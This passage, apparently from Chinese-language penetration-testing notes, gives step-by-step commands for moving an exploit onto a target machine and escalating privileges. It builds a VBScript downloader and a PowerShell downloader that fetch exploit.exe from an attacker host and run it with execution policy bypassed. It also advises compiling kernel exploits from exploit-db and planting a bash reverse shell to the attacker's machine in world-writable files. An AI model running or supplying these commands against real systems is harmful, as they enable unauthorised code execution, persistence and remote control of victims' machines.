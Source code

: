 ```wget-vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
攻击机起http服务:
cp exploit.exe /var/www/
service apache2 start

在目标机执行wget-vbs中的命令,会生成wget.vbs
目标机执行:
dir wget.vbs
cscript wget.vbs http://kali-ip/exploit.exe (要下载的文件)exploit.exe(保存成的文件名)


### powershell

同样,攻击机起http服务
```powershell-download
echo $storageDir =$pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://kali-ip/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
在目标机执行powershell-download中的命令,会生成wget.ps1
目标机执行:
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1


## 权限提升

### linux

网页:   https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  https://www.rebootuser.com/?p=1623

/etc/issue 和 /etc/redhat-release都是系统安装时默认的发行版本信息,通常安装好系统后文件内容不会发生变化

lsb_release -a ：FSG(Free Standards Group)组织开发的LSB (Linux Standard Base)标准的一个命令,用来查看linux兼容性的发行版信息(手动升级系统内核,会使lsb_release -a和/etc/issue显示的发行版本号不同)

/proc/version 和 uname -a 显示的内容相同,显示linux内核版本号

去 https://www.exploit-db.com/ 找对应的溢出exp,下载到目标机

gcc exploit.c -o exploit    (编译成二进制文件)


找带suid的文件:
find / -perm -2 ! -type l -ls 2>/dev/null
筛选出其中所有人有rwx权限的文件,添加如下一句话:
bash -i >& /dev/tcp/kali-ip/port 0>&1
